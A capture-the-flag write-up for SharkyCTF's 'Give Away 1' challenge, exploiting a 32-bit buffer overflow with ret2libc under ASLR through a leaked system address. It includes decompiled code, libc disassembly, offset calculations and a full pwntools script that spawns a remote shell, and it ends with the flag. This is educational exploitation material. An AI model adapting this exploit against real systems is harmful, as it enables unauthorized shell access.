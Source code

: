 # Give Away 1

> Make good use of this gracious give away.
>
> nc sharkyctf.xyz 20334

## Description

For this one we are given both a library and the executable. Let's dissasemble the executable with [Ghidra](https://ghidra-sre.org/).

```c
undefined4 main(void)
{
  init_buffering(&stack0x00000004);
  FUN_000104c0("Give away: %p\n",system);
  vuln();
  return 0;
}

void vuln(void)
{
  int iVar1;
  undefined local_24 [28];
  
  iVar1 = __x86.get_pc_thunk.ax();
  FUN_000104c8(local_24,0x32,**(undefined4 **)(iVar1 + 0x191f));
  return;
}
```

By executing the program, we see that `FUN_000104c0` is `printf` and `FUN_000104c8` is `fgets` called with `stdin`. So once again, this is a buffer overflow. We'll want to spawn a shell, and a good way to do this is to call `system` with `/bin/sh` as argument. This kind of exploit is a ret2lib exploit.

## Solution

This time ASLR is enabled, meaning that the addresses change. But thanksfully, the address of system in the library is given away. With ASLR, only the base address changes, but the offset remains the same. So we can find the address of our functions relatively to `system`, then read its address and add the offsets to find their real address.

The exploits works as follow:
- overflow the buffer, overwrite the return address and go to `system`
- find where we need to put our argument
- give `/bin/sh` as argument to `system`.

For this challenge I'm using [pwntools](http://docs.pwntools.com/en/stable/).

### Go to system

First we need to extract the given system address.

```python
sh = remote("sharkyctf.xyz", 20334)

print(sh.recvuntil("Give away: "))
system_string = sh.recvline().decode()
print(system_string)
system = int(system_string, 16)
```

Then locally I find the offset with gdb. This is the same technique as the one used in [GiveAway0](../GiveAway0.md), so I won't put it here again.

```python
OFFSET = 36
```

Using gdb I check that I do reach `system`.

### Find where the argument goes

With gdb, I disassemble `system` in the library.

```assembly
0x0003d200 <+0>:     sub    $0xc,%esp
0x0003d203 <+3>:     mov    0x10(%esp),%eax
0x0003d207 <+7>:     call   0x13737d
0x0003d20c <+12>:    add    $0x19adf4,%edx
0x0003d212 <+18>:    test   %eax,%eax
0x0003d214 <+20>:    je     0x3d220 <system+32>
0x0003d216 <+22>:    add    $0xc,%esp
0x0003d219 <+25>:    jmp    0x3cce0
0x0003d21e <+30>:    xchg   %ax,%ax
0x0003d220 <+32>:    lea    -0x59f29(%edx),%eax
0x0003d226 <+38>:    call   0x3cce0
0x0003d22b <+43>:    test   %eax,%eax
0x0003d22d <+45>:    sete   %al
0x0003d230 <+48>:    add    $0xc,%esp
0x0003d233 <+51>:    movzbl %al,%eax
0x0003d236 <+54>:    ret
```

The argument seems to be fetched at `0x10(%esp)`: it is passed on the stack. Therefore my payload will be:

```
fill_buffer + addr_system + addr_bin_sh
```

But doing this will not work, as the stack needs to be 16-bytes aligned, so I need to add dummy 4 bytes before the argument.

### Find address of /bin/sh

I find a copy of the `/bin/sh` string using:

```bash
strings -a -t x libc.so.6 | grep /bin/sh
```

This gives me the address `0x17e0cf` for the string. With gdb, I find `0x3d200` for `system`.

### Exploit

We can finally build the exploit.

```python
sh = remote("sharkyctf.xyz", 20334)

print(sh.recvuntil("Give away: "))
system_string = sh.recvline().decode()
print(system_string)
system = int(system_string, 16)

OFFSET = 36
bin_sh = system + 0x17e0cf - 0x3d200

payload = b'A'*OFFSET + p32(system) + p32(0) + p32(bin_sh)
print(payload)
sh.sendline(payload)
sh.interactive()
```

![](../images/give_away_1.png)

Flag: `shkCTF{I_h0PE_U_Fl4g3d_tHat_1n_L3ss_Th4n_4_m1nuT3s}`
